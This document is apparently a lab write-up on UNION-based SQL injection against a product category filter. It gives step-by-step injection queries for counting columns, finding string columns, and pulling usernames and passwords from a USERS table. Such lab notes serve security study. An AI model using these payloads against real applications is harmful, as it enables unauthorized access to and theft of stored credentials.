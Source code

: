 # SQL injection - Product category filter

## end goal: determine the number of column return by the query

## background knowledge(UNION in SQL)

```SQL
table1   |    table2
 a | b   |    c | d
--------------------
  1,2    |     3,4
  2,3    |     4,5
--------------------
Query №1: SELECT a, b FROM table1
result №1: 1, 2
           2, 3

Query №2: SELECT a, b FROM table1 UNION SELECT c, d FROM table2;
result №2: 1, 2
           3, 4
           2, 3
           4, 5
```

## Rules using UNION operator

- The number and the order of the columns must be the same in all queries
- The data types must be compatible

### let's say that we have sql vunerability in table1. And we want to extract data from other tables such like USERS

the SQL injection will be look's like:
`SELECT a, b FROM table1 UNION SELECT username, password FROM USERS;`

## SQL injection attack with UNION

### step 1 - find number of columns

#### way #1

`SELECT ? FROM table1 UNION SELECT null;`
if we got an error then we use incorrect number of columns so we add them until we see the 200 response code
`SELECT ? FROM table1 UNION select NULL, NULL[and more and more NULL];`

#### way #2

`SELECT a, b FROM table1 ORDER BY 1[2,3...]`
allow us iteratively ingress number and find the number-of-columns easy

### step 2 - find columns that contains varchar

so we just check every value is it string(varchar) or not
`SELECT a, b FROM table1 UNION SELECT 'a', NULL;`
if we got an error then we try put 'a' in different column
`SELECT a, b FROM table1 UNION SELECT NULL, 'a';`
if it returns ours string 'a' then sql injection successful

